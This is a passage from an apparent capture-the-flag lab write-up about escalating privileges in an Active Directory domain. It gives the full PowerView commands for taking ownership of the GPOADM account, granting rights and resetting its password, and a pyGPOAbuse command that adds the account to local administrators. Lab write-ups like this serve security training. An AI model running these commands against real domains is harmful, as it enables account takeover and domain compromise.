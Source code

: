 Since I used meterpreter, I can just upload PowerView from my file system without hosting file server or http server and after that I import the script, set object owner of GPOADM to Amelia.Griffiths user and add GenericAll permission from Amelia.Griffiths to GPOADM which allow me to reset password of this user.
```
upload PowerView.ps1
shell
powershell -ep bypass
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity 'GPOADM' -OwnerIdentity 'Amelia.Griffiths'
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "GPOADM" -PrincipalIdentity "Amelia.Griffiths"
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'GPOADM' -AccountPassword $NewPassword
```
![9cec944fa143c8368b27a33c5f0b2be7.png](/resources/9cec944fa143c8368b27a33c5f0b2be7.png)

After changing password, I confirm it with NetExec and now we have full control over GPOADM user. 

![f0a77a0ac133eb5685d50b833f16f163.png](/resources/f0a77a0ac133eb5685d50b833f16f163.png)

After that I use [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse), this tool is a partial implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) which allow me to remotely run GPO immediate scheduled task without having a shell as GPOADM user which I use with net localgroup command to add GPOADM user to local administrators group.
```
python pygpoabuse.py baby2.vl/GPOADM:'Password1234' -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -command 'net localgroup administrators GPOADM /add' -f
```
![bb2fd7d83c54d336b2c8729b16fb15eb.png](/resources/bb2fd7d83c54d336b2c8729b16fb15eb.png)
